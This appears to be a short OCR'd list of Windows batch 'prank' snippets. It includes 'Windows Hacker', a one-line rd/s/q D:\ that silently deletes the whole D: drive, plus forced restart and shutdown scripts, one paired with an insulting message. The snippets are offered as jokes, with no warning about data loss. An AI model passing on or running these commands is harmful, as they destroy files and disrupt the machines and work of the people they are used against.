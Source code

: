 

======================================================

Windows Hacker :-
rd/s/q D:\

======================================================

Unfortunate Restart
@echo off
shutdown -r -f -t 00

======================================================

April Fool
msg * I don't like you
shutdown -c "Error! You are too stupid!" -s
